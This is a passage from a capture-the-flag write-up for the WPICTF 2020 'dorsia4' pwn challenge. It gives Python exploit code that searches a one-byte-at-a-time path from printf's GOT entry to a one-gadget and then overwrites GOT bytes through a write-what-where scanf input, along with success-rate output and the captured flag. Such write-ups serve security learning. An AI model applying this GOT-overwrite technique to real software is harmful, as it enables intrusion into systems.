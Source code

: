 ```python
try:
    _ = nx.shortest_path(g,source=(printf & 0xFFFFFF),target=(gadget & 0xFFFFFF),weight='weight')
except:
    print("\nno path for you!\n")
    sys.exit(1)

print("\npath found (len: " + str(len(_)) + "):\n")
for i in _:
    print(hex(i))
print()      
```

Again, leveraging `networkx`, the shortest path (Dijkstra) is computed from `printf` to our gadget by changing one byte at a time.  There is a 1/8 chance you'll get a `no path for you!` exception.  That is the nature of ASLR.  There's ~4% chance you'll get a SIGSEGV with a valid path.  Also the length of the path varies.  For the lulz I did 1000 tests (locally) with the following results:

```
# sed 's/SIGSEGV.*/SIGSEGV/' test1000.out | egrep "(path|SIG|WPI|dorsia4)" | sort | uniq -c | sort -r -n
   1000 [*] '/pwd/datajerk/wpictf2020/dorsia4/nanowrite'
    839 b'WPI{D0_you_like_Hu3y_Lew1s_&_the_News?}\n'
    773 path found (len: 14):
    123 no path for you!
     54 path found (len: 21):
     50 path found (len: 18):
     37 [*] Process './nanowrite' stopped with exit code -11 (SIGSEGV
```

Expect an 84% chance of getting the flag.

There's probably enough data in [test1000.out.gz](test1000.out) to find the address(es) that is causing the SIGSEGVs, but at this point it is not that interesting of a problem.


#### _write-what-where_ the exploit

```python
for i in range(1,len(_)):
    for j in range(3):
        if (_[i-1] ^ _[i]) & (0xFF << j*8) != 0:
            b = (_[i] & (0xFF << j*8)) >> j*8
            print("put " + str(hex(b)) + " in " + str(j))
            p.sendline(str(hex(0x100000000 - (binary.symbols['a'] - binary.got['printf']) + j)) + " " + str(hex(b)))
            break
print()
```

Finally.  This will loop through the found path, determine the byte and the position and then finally input into `scanf` the address of the byte to be changed (`0x100000000 - (binary.symbols['a'] - binary.got['printf']) + j`) and the byte.

> I should have replaced that inner loop with 3 `if` statements for readability.
